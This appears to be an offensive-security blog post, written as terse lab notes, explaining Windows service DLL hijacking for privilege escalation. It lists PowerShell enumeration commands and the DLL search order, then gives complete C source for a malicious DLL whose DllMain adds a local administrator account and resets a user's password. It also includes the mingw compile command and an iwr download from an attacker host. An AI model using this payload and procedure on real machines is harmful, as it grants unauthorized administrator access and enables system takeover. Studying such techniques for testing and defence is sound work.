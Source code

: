 ```yaml
---
layout: post
title: Windows Service DLL Hijacking
titledate: 09/15/23
tags: ["infosec","offsec", "privesc", "powershell", "dll", "win_enum", "exploit"]
---
```


#### dll hijacking

if we are unable to replace the binary bc of a permission issue we may be able to work with its dlls

first let's find the running processes

    PS > Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

we can run procmon to display the loaded dlls of the binary we are interested in, however, we need admin creds to run procmon

depending on the application, if necessary we can copy the binary to our local system to execute in a different administrator environment to see which dlls we have available to us

in Procmon -> Filter -> Filter -> Proces Name is -> proc 'include'

to get our process to register in procmon

    PS > Restart-Service proc

looking at the procmon results we see a lot of name not found for a specific dll

with the missing dll we can attempt to write a dll to the dll search order path

    1. The directory from which the application loaded.
    2. The system directory.
    3. The 16-bit system directory.
    4. The Windows directory. 
    5. The current directory.
    6. The directories that are listed in the PATH environment variable.

dll main can be optional and executed when processes or threads attach to and execute the dll - 

if a dll does not contain a dll main function then that dll only provides resources

    PS > $env:path

checking the environment path 

```cpp
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
above is a MS example of a DLL that demonstrates the four cases in which a dll is used

since our example is trying to load a dll we will use that case

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
  	    i = system ("net user daveadmin password123!"); //to change a current users password.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

now we cross compile our cpp code to the name of the dll we want to use

    $ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

copy the binary over to the correct directory

    PS C:\Users\me\dlldirectory > iwr -uri http://192.168.1.1/myDLL.dll -Outfile myDLL.dll

restart the service 

    PS > Restart-Service BetaService